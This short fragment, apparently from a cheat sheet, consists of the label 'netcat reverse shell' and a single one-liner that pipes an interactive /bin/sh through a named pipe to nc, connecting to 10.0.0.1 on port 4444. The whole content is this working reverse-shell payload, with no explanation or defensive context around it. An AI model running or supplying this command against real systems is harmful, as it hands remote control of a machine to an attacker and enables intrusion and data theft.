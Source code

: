 1$ netcat reverse shell:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
